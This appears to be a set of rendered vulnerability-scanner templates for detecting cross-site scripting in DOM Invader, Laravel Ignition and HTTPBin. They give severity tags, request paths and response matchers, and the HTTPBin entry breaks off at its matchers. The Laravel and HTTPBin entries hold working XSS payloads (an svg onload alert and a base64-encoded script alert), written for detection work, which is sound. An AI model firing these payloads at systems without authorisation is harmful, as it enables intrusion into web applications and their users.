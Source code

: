 # DOM Invader - Cross-Site Scripting
## Description
- DOM Invader contains a cross-site scripting vulnerability in Sources & Sinks functionality.
- severity - high
- tags - xss,file

---
# Laravel Ignition - Cross-Site Scripting
## Description
- Laravel Ignition contains a cross-site scripting vulnerability when debug mode is enabled.

- severity - high
- tags - laravel,xss,ignition
## Requests
- Method - GET
### URL
- {{BaseURL}}/_ignition/scripts/-->\<svg%20onload=alert(document.domain)>
### Matchers

**Type - word**
- part - body
- words
    1. Undefined index: -->\<svg onload=alert(document.domain)> in file

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 500

---
# HTTPBin - Cross-Site Scripting
## Description
- HTTPBin contains a cross-site scripting vulnerability which can allow an attacker to execute arbitrary script. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,httpbin,oss
## Requests
- Method - GET
### URL
- {{BaseURL}}/base64/PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+
### Matchers
